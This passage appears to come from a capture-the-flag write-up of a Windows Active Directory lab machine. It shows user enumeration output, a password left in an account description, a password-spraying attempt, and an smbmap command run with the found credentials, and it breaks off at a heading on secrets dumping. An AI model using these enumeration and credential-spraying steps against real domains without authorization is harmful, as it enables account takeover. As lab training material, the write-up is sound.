 ```
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[M.Mason] rid:[0x44f]
user:[K.Keen] rid:[0x450]
user:[L.Livingstone] rid:[0x451]
user:[J.Johnson] rid:[0x452]
user:[V.Ventz] rid:[0x453]
user:[S.Swanson] rid:[0x454]
user:[P.Parker] rid:[0x455]
user:[R.Robinson] rid:[0x456]
user:[D.Durant] rid:[0x457]
user:[G.Goldberg] rid:[0x458]
<TRUNCATED>
```

In the description of the `v.ventz` user, there was a password of `HotelCalifornia194!`. Using this, we can do password spraying to test each user.&#x20;

Here's the username list:

```
Administrator
Guest
krbtgt
M.Mason
K.Keen
L.Livingstone
J.Johnson
V.Ventz
S.Swanson
P.Parker
R.Robinson
D.Durant
G.Goldberg
```

However, none of the passwords worked with any user other than `v.ventz`. This user also did not appear to be within the Remote Management Group because we were unable to `evil-winrm` in.

### SMB Shares --> Secrets Dumping

WIth our credentials, we were able to access some SMB shares, with one sticking out:

```
$ smbmap -u 'v.ventz' -p 'HotelCalifornia194!' -H 192.168.219.175
[+] IP: 192.168.219.175:445     Name: 192.168.219.175                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Password Audit                                          READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```
